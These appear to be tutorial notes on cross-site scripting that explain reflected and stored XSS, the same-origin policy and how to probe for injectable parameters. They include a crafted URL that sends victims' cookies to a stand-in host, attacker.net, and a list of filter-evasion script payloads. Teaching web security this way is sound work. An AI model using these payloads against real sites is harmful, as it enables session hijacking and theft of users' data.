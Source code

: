 This is a client-side attacking technique.

## Reflected XSS

The server that hosts the web aplication takes the parameter from the URL that is requested from the client (user) and simply render the parameter's content back to the user:

```
http://www.example.com/error.html?msg=<script>alert(1);</script>
```

And we say the site is vulnerable to XSS.

An attacker can exploit this vulnerability:

<img src="reflected-xss.png" />

Elaborate: the crafted URL can be something like `http://www.example.com/error.html?msg=<script>var+i=new+Image;+i.src="http://attacker.net/"%2bdocument.cookie;</script>`. The attacker monitors for the traffic to his site `attacker.net` and steal the user's cookie on the `example.com` site.

Question: If the attacker can feed the crafted URL to the user, Why doesn’t he simply host a malicious script on `attacker.net` and feed the user a direct link to this script? This is due to the same-origin policy: on the user's browser, different domains don't interfere with each other. If there were something like `document.cookie` in the malicious script, it would return the user's cookie on attacker.net, not `example.com`.

## Stored XSS

Data submitted by user is stored in the application and then is displayed to other users without being filtered or sanitized appropriately.

2 steps:
- the attacker posts some crafted data containing malicious code that the application stores.
- a victim views a page containing the attacker’s data, and the malicious code is executed when the script is executed in the victim’s browser.

---

Trust relationships that XSS may exploit:
- Browsers trust JavaScript received from a website with the cookies issued by that website.
- If the application employs forms with autocomplete enabled, JavaScript issued by the application can capture any previously entered data that the user’s browser has stored in the autocomplete cache. By instantiating the relevant form, waiting for the browser to autocomplete its contents, and then querying the form field values, the script may be able to steal this data and transmit it to the attacker’s server.

---

Methods to deliver reflected attack:
- Send a forged email.
- The attacker creates his own website with content that induce victims to click.
- Hide the crafted URL in the ads.

---

Finding XSS vulnerabilities: submit a string such as `><script>alert(document.cookie)</script><` as every parameter to every page of the application, and monitor the responses for the appearance of the same string.

If cases are found where the attack string appears unmodified within the response, the application is almost certainly vulnerable to XSS.

To circumvent the application's defensive filters, some of these can be tried:
```
“><script >alert(document.cookie)</script >
“><ScRiPt>alert(document.cookie)</ScRiPt>
“%3e%3cscript%3ealert(document.cookie)%3c/script%3e
“><scr<script>ipt>alert(document.cookie)</scr</script>ipt>
%00“><script>alert(document.cookie)</script>
```
